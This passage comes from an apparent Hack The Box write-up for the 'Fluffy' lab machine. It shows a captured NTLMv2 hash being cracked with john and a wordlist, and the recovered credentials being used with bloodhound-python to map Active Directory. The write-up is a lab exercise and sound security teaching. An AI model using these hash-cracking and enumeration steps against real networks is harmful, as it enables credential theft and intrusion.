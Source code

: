 ```bash
[SMB] NTLMv2-SSP Client   : 10.10.11.69
[SMB] NTLMv2-SSP Username : FLUFFY\p.agila
[SMB] NTLMv2-SSP Hash     : p.agila::FLUFFY:<HASH_REDACTED>
```

![htb-fluffy-hash](images/HTB-fluffy/htb-fluffy-hash.png)

After copying the entire section from `p.agila -> ...000` into the file `crack.txt`, we can use `john` to crack the hash
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt --fork=3 --progress-every=30 crack.txt
```

```bash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Node numbers 1-3 of 3 (fork)
Press 'q' or Ctrl-C to abort, almost any other key for status
<PASSWORD_REDACTED>  (p.agila) 
```

With these new credentials, we're able to view the active directory relationships with [bloodhound-python](https://github.com/dirkjanm/BloodHound.py){:target="_blank"}{:rel="noopener noreferrer"}

```bash
bloodhound-python -u 'p.agila' -p '<PASSWORD_REDACTED>' -d fluffy.htb -ns 10.10.11.69 -c all --zip 
```

Now we need to setup `bloodhound` to view the relationships
```bash
# set the username and password for bloodhound
# if you haven't already
neo4j console
```

Now we can run the web interface and upload our `zip` file in the `Upload Data` tab
```bash
bloodhound
```

